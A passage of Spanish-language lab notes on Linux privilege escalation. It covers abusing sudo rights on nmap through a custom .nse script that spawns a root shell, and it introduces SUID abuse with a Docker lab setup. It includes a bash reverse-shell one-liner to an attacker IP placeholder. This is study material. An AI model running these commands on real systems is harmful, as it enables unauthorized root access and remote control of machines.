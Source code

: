 ![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled 3.png)

Obtener una shell:

La idea es crear un script “.nse” en un directorio como “/tmp” para luego llamarlo con nmap. El contenido de este script será el siguiente:

```bash
os.execute("/bin/bash")

---

echo 'os.execute("/bin/bash")' > /tmp/script.nse
```

![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled 4.png)

Nota: Al crear la shell, es posible que no se vean los comando ingresados, para esto, se podría enviar una reverse shell a la máquina del atacante con el siguiente comando:

```bash
bash -c "bash -i >& /dev/tcp/<ipAttacker>/<Port> 0>&1"
```

![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled 5.png)

# Abusando de privilegios SUID

Un privilegio **SUID** (**Set User ID**) es un permiso especial que se puede establecer en un archivo binario en sistemas Unix/Linux. Este permiso le da al usuario que ejecuta el archivo los **mismos privilegios** que el **propietario** del archivo.
    
Por ejemplo, si un archivo binario tiene establecido el permiso SUID y es propiedad del usuario root, cualquier usuario que lo ejecute adquirirá temporalmente los mismos privilegios que el usuario root, lo que le permitirá realizar acciones que normalmente no podría hacer como un usuario normal.
    
El abuso de privilegios SUID es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a un archivo binario con permisos SUID, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.
    
Para prevenir el abuso de privilegios SUID, se recomienda limitar el número de archivos con permisos SUID y asegurarse de que solo se otorguen a archivos que requieran este permiso para funcionar correctamente. Además, es importante monitorear regularmente el sistema para detectar cambios inesperados en los permisos de los archivos y para buscar posibles brechas de seguridad.

## Instalación

```bash
docker pull ubuntu:latest
docker run -dit --name ubuntuServer ubuntu
docker exec -it ubuntuServer bash
```

La idea para este lab es probar cómo se podría explotar el permiso SUID en comandos como “base64” y “php”.
